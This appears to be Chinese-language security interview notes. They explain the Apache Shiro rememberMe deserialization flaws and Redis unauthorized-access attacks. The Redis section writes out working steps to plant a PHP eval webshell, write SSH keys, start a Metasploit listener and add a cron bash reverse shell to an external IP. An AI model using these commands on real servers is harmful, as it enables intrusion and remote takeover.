 Shiro反序列化漏洞

* 原理：
* Shiro是Apache下的一个开源Java安全框架，执行身份认证，授权，密码和会话管理。shiro在用户登录时除了账号密码外还提供了可传递选项remember me。用户在登录时如果勾选了remember me选项，那么在下一次登录时浏览器会携带cookie中的remember me字段发起请求，就不需要重新输入用户名和密码。
* 判断：
* 1.数据返回包中包含rememberMe=deleteMe字段。
* 2.直接发送原数据包，返回的数据中不存在关键字可以通过在发送数据包的cookie中增加字段：****rememberMe=然后查看返回数据包中是否存在关键字。
* shiro-550：
* shiro反序列化漏洞利用有两个关键点，首先是在shiro<1.2.4时，AES加密的密钥Key被硬编码在代码里，只要能获取到这个key就可以构造恶意数据让shiro识别为正常数据。另外就是shiro在验证rememberMe时使用了readObject方法，readObject用来执行反序列化后需要执行的代码片段，从而造成恶意命令可以被执行。攻击者构造恶意代码，并且序列化，AES加密，base64编码后，作为cookie的rememberMe字段发送。Shiro将rememberMe进行编码，解密并且反序列化，最终造成反序列化漏洞。
* shiro-721：
* 不需要key，利用Padding Oracle Attack构造出RememberMe字段后段的值结合合法的Remember。

## 15.了解过redis数据库和常见的漏洞吗？

redis是一个非关系型数据库，使用的默认端口是6379。常见的漏洞是未授权访问漏洞，攻击者无需认证就可以访问内部数据。利用手段主要有：

1.向root权限账户写入ssh公钥文件，直接免密登录服务器。(受害者redis非root权限运行会报错)

* 条件：
* 服务器存在.ssh目录且具有写入的权限
* 原理：
* 在数据库中插入一条数据，将本机的公钥作为value，key值随意，然后通过修改数据库的默认路径为/root/.ssh和默认的缓冲文件authorized.keys，把缓冲的数据保存在文件里，这样就可以在服务器端的/root/.ssh下生成一个授权的key。

2.写入webshell

* 条件：
* 已知web绝对路径。
* 步骤：
* 1. redis -cli -h 192.168.x.x 连接目标服务器
* 2. config set dir "/var/www/html" 设置保存文件路径
* 3. config set dbfilename shell.php 设置保存文件名
* 4. set x "\n\n`<?php @eval($_POST['cmd']); ?>`\n" 将webshell写入x键值中
* 5. save 保存
* 局限：
* 1.服务器处于内网，写入webshell后我们的公网IP无法连接
* 2.服务器IP地址不固定
* 3.6379端口不允许入方向
* 4.上传webshell可能直接被杀毒软件删除

3.反弹连接shell

* 设置监听端口，常用的工具1.msf 2.netcat 3.socat
* 利用msf设置监听步骤：
* 1. use exploit/multi/handler
* 2. set payload generic/shell_reverse_tcp
* 3. set lhost 192.168.x.x 默认监听端口为4444
* 4. run

4.定时任务反弹shell

* 步骤：
* 定时任务用的表达式 ：Cron表达式是一个字符串，该字符串由6个空格分为7个域，每一个域代表一个时间含义。分 时 天 月 周 user-name(用户) command(命令) 比如每过一分钟向root用户的定时任务中写入反弹连接命令
* (1) config set dir /var/spool/cron/ //目录切换到定时任务的文件夹中
* (2) config set dbfilename root //设置保存文件名
* (3)set x "\n * * * * * bash -i >& /dev/tcp/192.168.96.222/7777 0>&1\n" //将反弹shell写入x键值中
* (4)save //保存

